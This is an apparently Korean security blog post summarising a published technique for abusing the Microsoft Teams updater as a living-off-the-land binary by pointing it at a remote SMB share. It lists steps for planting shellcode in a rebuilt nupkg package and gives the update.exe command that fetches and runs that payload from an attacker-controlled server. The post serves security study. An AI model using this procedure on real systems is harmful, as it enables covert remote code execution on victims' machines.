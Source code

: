 ```yaml
---
title: "[하루한줄] Microsoft Teams Updater Living off the Land"
author: idioth
tags: [idioth, microsoft, teams, lolbin, lolbas]
categories: [1day1line]
date: 2020-12-17 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Microsoft Teams Updater Living off the Land](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/microsoft-teams-updater-living-off-the-land/)



## Target

- MS Teams Updater



## Explain

Microsoft Teams의 업데이트 프로그램을 lolbas(Living off the land binary and script)로 사용할 수 있습니다. 이전에 존재하던 code execution에 대한 취약점 수정은 URL을 통하여 업데이트 기능을 제한하는 것입니다. 하지만 업데이트 프로그램은 제품 업데이트를 위해 공유/로컬 폴더를 통한 로컬 연결이 가능합니다. 따라서 원격 SMB 공유 폴더를 통해 해당 패치를 우회할 수 있습니다.

이 취약점을 악용하기 위한 payload를 작성하는 단계는 다음과 같습니다.

1. `%localappdata%\Microsoft\Teams\packages`에서 Microsoft Teams pre-built package를 통해 nupkg 패키지 추출(ex. Teams-1.3.00.27559-full.nupkg)

2. `Teams-1.3.00.27559-full.nupkg\lib\net45`에 shellcode를 `squirrel.exe` 파일로 넣은 후 압축

3. metadata 계산

   `sha1sum Teams-1.3.00.27559-full.nupkg.nupkg && wc -c < Teams-1.3.00.27559-full.nupkg`

   output:

   `fa8b87f0b995498a6e890c832dcaf968997608d4 Teams-1.3.00.27559-full.nupkg 4695`

4. `RELEASES` 파일을 생성한 후 위의 결과 값을 복사해서 저장

5. `Teams-1.3.00.27559-full.nupkg`와 `RELEASES` 파일을 메인 디렉터리에 넣고 원격 SMB 서버에 업로드

피해자가 아래 명령어를 통해 해커의 원격 SMB 서버로 update를 진행하면 Microsoft Teams에 의해 다운로드되고 실행됩니다.

```
%localappdata%\Microsoft\Teams\update.exe --update = \\ remoteserver\payloadFolder
```